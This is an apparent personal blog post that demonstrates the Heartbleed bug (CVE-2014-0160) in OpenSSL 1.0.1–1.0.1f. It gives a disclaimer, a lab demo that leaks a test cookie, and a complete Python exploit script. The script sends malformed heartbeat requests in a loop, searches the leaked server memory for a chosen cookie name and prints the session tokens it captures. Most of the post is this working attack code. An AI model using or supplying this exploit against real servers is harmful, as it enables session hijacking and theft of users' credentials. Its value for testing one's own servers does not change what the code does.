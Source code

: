 ```yaml
---
layout: post
title: PoC to capture data via the Heartbleed Bug
description: "A simple proof of concept on how to capture data on server running OpenSSL"
tags: [heartbeat bug, hacking, exploitation]
comments: true
---
```


This code is not mine nor I claim credits for it. You should use it only on your servers. It is very much against the law if you execute it on servers that you do not own. This code is for educational purposes only. I take no responsibility for you doing something stupid with it. Use it to check if your Apache servers running OpenSSL are vulnerable.

This is in regards to the bug that was found in OpenSSL versions 1.0.1 to 1.0.1f. These versions do not properly handle hearbeat extension. More info can be read here, [CVE-2014-0160](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160).

### Testing Ubuntu 12.04.3 LTS running OpenSSL 1.0.1

{% highlight c %}
$ python heartbleed-altered.py 192.168.199.135 secure
secure
securepassword=iamencrypted
{% endhighlight %}

The command above will try to capture section of a memory on the server running a vulnerable OpenSSL version. This is not even a mitm attack. This tool is directly connected to the Apache server via SSL(https). I noticed though sometimes, it doesn't capture anything. I'm pretty sure that the full working code is not being shared which I think is appropriate. The output shows it was able to capture the securepassword cookie. I would like to emphasize that this is totally different from sniffing.

On my browser, I visited https://192.168.199.135/index.php
{% highlight c %}
<?php
    session_start();
    setcookie("securepassword", "iamencrypted");
    setcookie("secureusername", "highlysecured");
?>
{% endhighlight %}

This is how it looks in Chrome Developer Tools
<figure>
    <img src="/images/cookie-on-chrome-dev-tools.png">
</figure>


[Can be downloaded here](https://gist.github.com/c0debreaker/10225656)

{% highlight c %}
#!/usr/bin/python

# Connects to servers vulnerable to CVE-2014-0160 and looks for cookies, specifically user sessions.
# Michael Davis (mike.philip.davis@gmail.com)

# Based almost entirely on the quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)

# The author disclaims copyright to this source code.

import select
import sys
import string
import struct
import socket
import time
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
options.add_option('-c', '--cookie', type='str', default='session', help='Cookie to look for. (default: session)')


def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')


class HeartBleeder(object):

    server_response = None
    socket = None
    hostname = ''
    port = 443
    found_sessions = set()
    cookie = 'session'
    cookie_length = 56

    def __init__(self, hostname='', cookie=''):
        self.hostname = hostname
        self.cookie = cookie

    def connect(self):
        """
        Connects to the remote server.
        """
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sys.stdout.flush()
        self.socket.connect((self.hostname, self.port))
        sys.stdout.flush()
        self.socket.send(hello)
        sys.stdout.flush()

    def rcv_response(self):
        while True:
            _type, version, payload = self.rcv_message()
            if _type is None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if _type == 22 and ord(payload[0]) == 0x0E:
                break

    def rcv_message(self):

        record_header = self.rcv_all(5)
        if record_header is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        _type, version, line = struct.unpack('>BHH', record_header)
        payload = self.rcv_all(line, 10)
        if payload is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        # print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return _type, version, payload

    def rcv_all(self, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time()
            if rtime < 0:
                return None
            r, w, e = select.select([self.socket], [], [], 5)
            if self.socket in r:
                data = self.socket.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata

    def try_heartbeat(self):
        self.socket.send(hb)
        while True:
            _type, version, self.payload = self.rcv_message()
            if _type is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False

            if _type == 24:
                # print 'Received heartbeat response:'
                self.parse_response()
                if len(self.payload) > 3:
                    pass
                    # print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True

            if _type == 21:
                print 'Received alert:'
                self.hexdump(self.payload)
                print 'Server returned error, likely not vulnerable'
                return False

    def parse_response(self):
        """
        Parses the response from the server for a session id.
        """
        ascii = ''.join((c if 32 <= ord(c) <= 126 else ' ')for c in self.payload)
        index = string.find(ascii, self.cookie)
        if index >= 0:
            info = ascii[index:index + self.cookie_length]
            session = info.split(' ')[0]
            session = string.replace(session, ';', '')
            if session not in self.found_sessions:
                self.found_sessions.add(session)
                print session

    def hexdump(self, payload):
        """
        Prints out a hexdump in the event that server returns an error.
        """
        for b in xrange(0, len(payload), 16):
            line = [c for c in payload[b:b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in line)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.')for c in line)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print

    def scan(self):
        self.connect()
        self.rcv_response()
        self.try_heartbeat()


def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    cookies_str = 'session'
    if len(args) > 1:
        cookies_str = args[1]

    print cookies_str

    while True:
        heartbeat = HeartBleeder(hostname=args[0], cookie=cookies_str)
        heartbeat.scan()


if __name__ == '__main__':
    main()
{% endhighlight %}